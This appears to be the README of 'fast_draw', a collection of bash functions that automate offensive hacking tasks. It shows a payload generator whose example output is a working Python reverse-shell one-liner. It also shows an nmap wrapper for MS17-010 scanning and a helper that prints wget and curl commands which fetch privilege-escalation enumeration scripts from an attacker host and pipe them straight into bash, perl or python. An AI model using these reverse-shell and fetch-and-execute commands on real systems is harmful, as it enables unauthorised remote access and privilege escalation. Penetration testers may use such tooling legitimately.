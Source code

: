 # fast_draw

Shellscripts functions to automate stuff in hacking


## How load the functions:
To load the functions, you just need to load the bash file to your environment: 
```
. gun
```
You can automate this load using the ~/.bashrc file to load every time you open a shell. 


## How use: 
### Generating payloads: 
#### Listing
```
$ genweapon help
[!] Help menu:
bash list -> List available payloads
bash generate PAYLOAD_PATH LHOST LPORT OUTPUT
	 Example: bash generate payloads/python/reverse_tcp 127.0.0.1 443 /tmp/shell.p
```

#### Creating 
Syntax: 

```
$ genweapon generate payloads/path_to_/payloadfile LHOST LPORT OUTPUT_FILE 
```

Example: 
```
$ genweapon generate payloads/python/reverse_tcp 127.0.0.1 443 /tmp/pyshell.py 
[-] Generating the payload
[-] Payload saved at /tmp/pyshell.py
operador@remember:~/scripts/shellscript/fast_draw$ cat /tmp/pyshell.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Automating nmap nse scans: 
Syntax: 

```
nse smb target ports 
```

Example: 

```
$ nse ms17-010 192.168.10.10 139,445
sudo nmap -p 139,445 --script=smb-vuln-ms17-010.nse -oN nmap_nse_smb-vuln-ms17-010.nse 192.168.10.10

```

### Generate commands to help at Post Exploitation/Priv Escalation
#### Linux: 
Syntax:

```
weblinux LHOST <wget|curl> 
```

Example:

```
$ weblinux 192.168.10.10 wget
wget -q http://192.168.10.10/LinEnum.sh -O - | bash
wget -q http://192.168.10.10/linpeas.sh -O - | bash
wget -q http://192.168.10.10/linux-exploit-suggester-2.pl -O - | perl
wget -q http://192.168.10.10/linux-exploit-suggester.sh -O - | bash
wget -q  http://192.168.10.10/linuxprivchecker.py -O - | python
$ weblinux 192.168.10.10 curl
curl -s http://192.168.10.10/LinEnum.sh | bash
curl -s http://192.168.10.10/linpeas.sh | bash
curl -s http://192.168.10.10/linux-exploit-suggester-2.pl | perl
curl -s http://192.168.10.10/linux-exploit-suggester.sh | bash
curl  -s http://192.168.10.10/linuxprivchecker.py | python
```
